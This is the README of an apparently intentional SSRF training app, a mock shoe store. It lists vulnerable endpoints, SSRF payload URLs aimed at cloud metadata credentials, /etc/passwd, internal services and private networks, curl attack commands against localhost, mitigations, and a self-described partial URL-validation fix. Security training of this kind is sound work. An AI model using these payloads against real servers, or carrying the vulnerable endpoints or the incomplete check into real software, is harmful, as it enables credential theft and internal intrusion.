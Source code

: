 # SSRF Vulnerability Demonstration - Mr. Bluejays Shoe Store

## ⚠️ WARNING
**This application contains intentional security vulnerabilities for educational and demonstration purposes only. DO NOT deploy to production or expose to the internet.**

## Overview
This application demonstrates Server-Side Request Forgery (SSRF) vulnerabilities in a mock e-commerce shoe store. SSRF allows attackers to make the server perform requests to arbitrary URLs, potentially accessing internal resources, cloud metadata, or other sensitive endpoints.

## Setup Instructions

1. **Install Dependencies**
   ```bash
   npm install
   ```

2. **Start the Vulnerable Server**
   ```bash
   npm start
   # Server runs on http://localhost:3000
   ```

3. **Access the Application**
   - Open `index.html` in a web browser
   - Or navigate to http://localhost:3000 after starting the server

## Vulnerable Endpoints

### 1. Product Image Loader (`/api/product-image`)
- **Location**: Products page → "Load Custom Product Image" section
- **Method**: GET with `url` parameter
- **Vulnerability**: No validation of image URLs allows fetching from any source

### 2. URL Preview (`/api/preview-url`)
- **Location**: About page → "Preview External Catalog" section
- **Method**: POST with `targetUrl` in body
- **Vulnerability**: Fetches and returns content from any URL

### 3. Product Import (`/api/import-product`)
- **Method**: POST with `catalogUrl` in body
- **Vulnerability**: Imports data from arbitrary URLs

## SSRF Attack Examples

### 1. Access Internal Admin Endpoints
```
http://localhost:3000/admin/users
http://localhost:3000/internal/config
```

### 2. Cloud Metadata Service (AWS)
```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

### 3. Internal Network Scanning
```
http://192.168.1.1:80/
http://10.0.0.1:8080/
http://172.16.0.1:3000/
```

### 4. Local File Access (if supported by the HTTP client)
```
file:///etc/passwd
file:///C:/Windows/System32/drivers/etc/hosts
```

### 5. Internal Services
```
http://localhost:6379/ (Redis)
http://localhost:9200/ (Elasticsearch)
http://localhost:5984/ (CouchDB)
```

## How to Test the SSRF Vulnerability

### Via Frontend UI:

1. **Test Internal Admin Access:**
   - Go to the Products page
   - In "Load Custom Product Image" enter: `http://localhost:3000/admin/users`
   - Click "Load Image"
   - Observe error message revealing internal data

2. **Test URL Preview:**
   - Go to the About page
   - In "Preview External Catalog" enter: `http://localhost:3000/internal/config`
   - Click "Preview"
   - See internal configuration exposed

### Via Direct API Calls:

```bash
# Fetch internal admin data
curl "http://localhost:3000/api/product-image?url=http://localhost:3000/admin/users"

# Preview internal config
curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"http://localhost:3000/internal/config"}'

# Import from internal service
curl -X POST http://localhost:3000/api/import-product \
  -H "Content-Type: application/json" \
  -d '{"catalogUrl":"http://localhost:3000/admin/users"}'
```

## Security Impact

SSRF vulnerabilities can lead to:

1. **Data Exfiltration**: Access to internal APIs, databases, and configuration files
2. **Cloud Metadata Access**: Retrieve AWS/Azure/GCP instance credentials
3. **Internal Network Mapping**: Scan internal network for services
4. **Bypass Security Controls**: Access resources behind firewalls
5. **Denial of Service**: Make requests to slow or resource-intensive endpoints
6. **Remote Code Execution**: In combination with other vulnerabilities

## Mitigation Strategies

To fix SSRF vulnerabilities:

1. **Input Validation**
   - Whitelist allowed domains/protocols
   - Validate URL format and structure
   - Block private IP ranges (10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16)
   - Block loopback addresses (127.0.0.0/8, ::1)
   - Block cloud metadata IPs (169.254.169.254)

2. **Network Segmentation**
   - Use separate networks for different services
   - Implement firewall rules
   - Restrict outbound connections

3. **Use Safe Libraries**
   - Employ libraries with built-in SSRF protection
   - Keep dependencies updated

4. **Implement Authentication**
   - Require authentication for sensitive endpoints
   - Use API keys for external requests

5. **Response Handling**
   - Don't return raw responses to users
   - Strip sensitive headers
   - Limit response sizes

## Example Fix (Partial Mitigation)

```javascript
// Add URL validation
function isUrlSafe(url) {
    const parsed = new URL(url);

    // Only allow HTTPS
    if (parsed.protocol !== 'https:') return false;

    // Block internal IPs
    const hostname = parsed.hostname;
    if (hostname === 'localhost' ||
        hostname === '127.0.0.1' ||
        hostname === '169.254.169.254' ||
        hostname.startsWith('192.168.') ||
        hostname.startsWith('10.') ||
        hostname.startsWith('172.')) {
        return false;
    }

    // Whitelist allowed domains
    const allowedDomains = ['example.com', 'trusted-cdn.com'];
    if (!allowedDomains.some(domain => hostname.endsWith(domain))) {
        return false;
    }

    return true;
}
```

## Educational Resources

- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [PortSwigger SSRF Research](https://portswigger.net/web-security/ssrf)
- [SSRF Bible](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/)

## Disclaimer

This vulnerable application is designed for:
- Security training and education
- Penetration testing practice
- Security awareness demonstrations
- Vulnerability research

**Never use this code in production environments or expose it to untrusted networks.**

## License

For educational use only. Not for production deployment.